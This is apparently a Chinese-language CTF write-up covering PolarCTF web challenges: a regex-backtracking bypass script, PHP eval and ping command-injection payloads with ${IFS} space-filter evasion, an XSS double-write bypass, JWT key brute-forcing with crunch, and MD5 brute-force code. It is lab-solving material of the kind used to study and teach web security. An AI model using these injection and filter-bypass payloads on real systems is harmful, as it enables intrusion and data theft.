





swp(正则最大回溯)
先扫描得到.index.php.swp，得到源码
function jiuzhe($xdmtql){
return preg_match('/sys.*nb/is',$xdmtql);
}
$xdmtql=@$_POST['xdmtql'];
if(!is_array($xdmtql)){
if(!jiuzhe($xdmtql)){
if(strpos($xdmtql,'sys nb')!==false){
echo 'flag{*******}';
}else{
echo 'true .swp file?';
}
}else{
echo 'nijilenijile';
}
}考察正则最大回溯
import requests
payload = "sys nb"+"hsad"*1000000
url = "http://1ce7c85b-bed6-4e28-bf60-fcfb671efc81.www.polarctf.com:8090/"
data = {
"xdmtql":payload
}
response = requests.request("POST", url, data=data, allow_redirects=False)
if response.status_code == 200:
print(response.text)
else:
print(response.status_code)
简单rce
<?php
/*
PolarD&N CTF
*/
highlight_file(__FILE__);
function no($txt){
if(!preg_match("/cat|more|less|head|tac|tail|nl|od|vim|uniq|system|proc_open|shell_exec|popen| /i", $txt)){
return $txt;}
else{
die("what's up");}}
$yyds=($_POST['yyds']);
if(isset($_GET['sys'])&&$yyds=='666'){
eval(no($_GET['sys']));
}
else
{echo "nonono";
}
?> nonono命令执行函数
system() 输出并返回最后一行shell结果。
exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。（替换system）输出函数
cat函数 由第一行开始显示内容，并将所有内容输出
tac函数 从最后一行倒序显示内容，并将所有内容输出
nl 类似于cat -n，显示时输出行号
more 根据窗口大小，一页一页的现实文件内容
less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符
head 只显示头几行
tail 只显示最后几行
sort 文本内容排列空格绕过
${IFS}
{IFS}$9
$IFS$9
重定向符：<>（但是不支持后面跟通配符）
水平制表符%09
%0a 回车
%0d换行Payload:
GET: /?sys=passthru('sort$IFS/flag');
POST: yyds=666蜜雪冰城吉警店(js)

修改前端任意按钮id为9即可
召唤神龙

seek flag
Cookie:id改为1 flag1:flag{7ac5b
抓包响应 Flag2: 3ca8737a70f029d
<!--焯，爬虫要是爬到我的flag怎么办-->查看robots.txt
#flag3:c0ad71dadd11}jwt
响应头：Flag-is-admins-password
随便注册账号登录有个人中心可以看到密码，抓包得到jwt 不过要爆破key（看wp是4位大写字母不知道怎么爆的 恼
crunch 1 4 -f /usr/share/crunch/charset.lst ualpha -o ./4ualpha.txt生成字典爆破 key为SYSA 将用户名改为admin即可得到密码
login
源码给了提示<!--20200101 20200101-->
登录上去 只显示了登陆成功 没思路
看了wp说是使用20200102返回了f 然后依次往下爆破😅
flag{dlcg}iphone(UA标识)

尝试找个iPhone的UA头
# Safari 用户代理字符串
Mozilla/5.0 (iPhone; CPU iPhone OS 13_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.1 Mobile/15E148 Safari/604.1
# 爬虫和机器人用户代理字符串
Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Mozilla/5.0 (compatible; YandexAccessibilityBot/3.0; +http://yandex.com/bots)
# 库与网络工具的用户代理字符串
PostmanRuntime/7.26.5
curl/7.64.1
# 微软 Edge 用户代理字符串
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.59
# Opera 用户代理字符串
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36 OPR/38.0.2220.41
# Chrome 用户代理字符串
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
# Firefox 用户代理字符串
Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion浮生日记(xss)
有点像xss但是过滤了基本的

先闭合"然后在双写试试
"><scrscriptipt>alert(1)</scrscriptipt>$$(GLOBALS)
<?php
/*
PolarD&N CTF
*/
highlight_file(__file__);
error_reporting(0);
include "flag.php";
$a=$_GET['c'];
if(isset($_GET['c'])){
if(preg_match('/flag|\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $a)){
die("oh on!!!");}
else{
eval("var_dump($$a);");}} $GLOBALS：引用全局作用域中可用的全部变量（一个包含了全部变量的全局组合数组。变量的名字就是数组的键），与所有其他超全局变量不同，$GLOBALS在PHP代码中任何地方总是可用的
global在PHP中的解析是：global的作用是定义全局变量,但是这个全局变量不是应用于整个网站,而是应用于当前页面,包括include或require的所有文件。
注：在函数体内定义的global变量,函数体外可以使用,在函数体外定义的global变量不能在函数体内使用爆破
<?php
error_reporting(0);
if(isset($_GET['pass'])){
$pass = md5($_GET['pass']);
if(substr($pass, 1,1)===substr($pass, 14,1) && substr($pass, 14,1) ===substr($pass, 17,1)){
if((intval(substr($pass, 1,1))+intval(substr($pass, 14,1))+substr($pass, 17,1))/substr($pass, 1,1)===intval(substr($pass, 31,1))){
include('flag.php');
echo $flag;
}
}
}else{
highlight_file(__FILE__);
}
?><?php
error_reporting(0);
$string = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
#62位
for ($a = 0; $a < 62; $a++) {
for ($b = 0; $b < 62; $b++) {
$flag = $string[$a] . $string[$b];
$pass = md5($flag);
if (substr($pass, 1, 1) === substr($pass, 14, 1) && substr($pass, 14, 1) === substr($pass, 17, 1)) {
if ((intval(substr($pass, 1, 1)) + intval(substr($pass, 14, 1)) + substr($pass, 17, 1)) / substr($pass, 1, 1) === intval(substr($pass, 31, 1))) {
echo $flag . "\n";
}
}
}
}
?>XFF
X-Forwarded-For: 1.1.1.1rce1
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
$ip = $_GET['ip'];
$m = [];
if (!preg_match_all("/ /", $ip, $m)) {
$cmd = "ping -c 4 {$ip}";
exec($cmd, $res);
} else {
$res = $m;
}
}
?>GET: /?ip=127.0.0.1;tac${IFS}fllllaaag.php#GET-POST
<?php
/*
PolarD&N CTF
*/
highlight_file(__FILE__);
include('flag.php');//文件包含，flag在flag.php文件中，不用想了你访问也没用
$id = $_GET['id'];
echo "你必须让我感受到你的真诚，用GET请求传递一下id吧，令id=1";
if($id == '1'){
echo "干的漂亮";
echo "<br/>";
echo "虽然我感受到了你的真诚，但还是不行，用POST请求传递一下jljcxy吧，令jljcxy=flag";
$jljcxy = $_POST['jljcxy'];
if($jljcxy == 'flag'){
echo $flag;
}
}
你必须让我感受到你的真诚，用GET请求传递一下id吧，令id=1Payload:
GET: ?id=1
POST: jljcxy=flag被黑掉的站

index.php.bak里都是弱口令 去爆破shell.php的密码即可